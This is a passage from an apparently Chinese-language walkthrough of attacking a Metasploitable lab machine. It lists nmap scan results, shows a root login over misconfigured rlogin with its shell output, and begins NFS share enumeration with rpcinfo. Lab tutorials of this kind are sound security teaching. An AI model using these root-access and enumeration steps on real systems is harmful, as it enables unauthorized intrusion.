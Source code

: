 512/tcp  open exec

513/tcp  open login

514/tcp  open shell

1099/tcp open rmiregistry

1524/tcp open ingreslock

2049/tcp open nfs

2121/tcp open ccproxy-ftp

3306/tcp open mysql

3632/tcp open distccd

5432/tcp open postgresql

5900/tcp open vnc

6000/tcp open X11

6667/tcp open irc

6697/tcp open unknown

8009/tcp open ajp13

8180/tcp open unknown

8787/tcp open unknown

39292/tcp open unknown

43729/tcp open unknown

44813/tcp open unknown

55852/tcp open unknown

MAC Address: 00:0C:29:9A:52:C1 (VMware)

目标系统中几乎每一个端口监听的服务都给我们提供一个远程接入点。在接下来的章节中，我们将会漫步于这些路径之中。

**服务：Unix基础**

TCP端口512,513和514为著名的rlogin提供服务。在系统中被错误配置从而允许远程访问者从任何地方访问（标准的，rhosts + +）。要利用这个配置，确保rsh客户端已经安装（在ubuntu上），然后以root权限运行下列命令，如果被提示需要一个SSH秘钥，这表示rsh客户端没有安装，ubuntu一般默认使用SSH。

```bash
# rlogin -l root 192.168.99.131
Last login: Fri Jun  1 00:10:39 EDT 2012 from :0.0 on pts/0
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
```

这是如此轻而易举办到。接下来我们要查看的是网络文件系统（NFS)。NFS可以通过扫描2049端口或者查询端口映射程序的服务列表进行确认。下面的列子我们将通过rpcinfo来确认NFS,通过showmount -e 来确定“ /”共享（文件系统的根目录）已经被导出。我们需要安装ubuntu中的rpcbind和nfs-common的依赖包。

root@ubuntu:~# **rpcinfo -p 192.168.99.131**

  program vers proto  port service

  100000  2  tcp  111 portmapper

